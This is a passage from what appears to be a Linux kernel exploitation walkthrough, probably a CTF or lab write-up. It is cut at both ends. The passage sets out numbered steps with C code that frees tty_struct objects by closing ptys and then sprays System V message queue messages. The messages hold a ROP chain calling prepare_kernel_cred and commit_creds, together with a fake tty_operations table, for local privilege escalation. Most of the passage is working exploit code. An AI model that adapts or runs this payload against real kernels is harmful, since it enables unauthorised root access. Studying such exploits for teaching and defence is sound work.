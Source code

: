 ```sh
  swapgs_restore_regs_and_return_to_usermode: 0xffffffffb1c01670
...
...
```
### Setting up ROP gadgets and function table

#### 5. Create message queues and dellocate the `tty_struct` by closing the devices.

```c

// Creating 4 message queues :D
int msg_queue[4];
int msg_count = 0;

for(int i = 0; i < 4; i++) {
  int msg_qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  if (msg_qid == -1) {
    err("`msgget()` failed to initialize queue");
  } else {
    msg_queue[msg_count++] = msg_qid;
    printf("[+] Created message queue %d: %d\n", i, msg_qid);
  }
}

// close ptys (deallocate)
for (int i = 0; i < 20; i++) {
  if (ptys[i] >= 0) close(ptys[i]);
}
```

#### 6. spam messages containing ROP gadgets and our function table hoping one of these messages gets allocated into our heap.

```c
int set_message(int queue_index, int* msg_queue){
	int queue = msg_queue[queue_index];

	size_t fails = 0;
    struct msgbuf {
        long mtype;
        char mtext[MSG_SZ];
    } msg;
	msg.mtype = 0x1337;
	memset(msg.mtext, 0, MSG_SZ);
	uint64_t *payload = (uint64_t*)&msg.mtext[0];
	// Set up the ROP chain
	payload_len=0;
	payload[payload_len++] = pop_rdi;
	payload[payload_len++] = 0; // rdi = NULL
	payload[payload_len++] = prepare_kernel_cred;
	payload[payload_len++] = pop_r12;
	payload[payload_len++] = commit_creds;
  // ... rest of the ROP CHAIN kpti trampoline, etc

	uint64_t *ops = (uint64_t*)&(payload[payload_len]);

	// tty_operations table
	for(int i = 0; i < 20; i++) {
		if (i ==4 || i==5 || i==6 || i==19) {
			ops[i] = ret_gadget;
			continue;
		}
```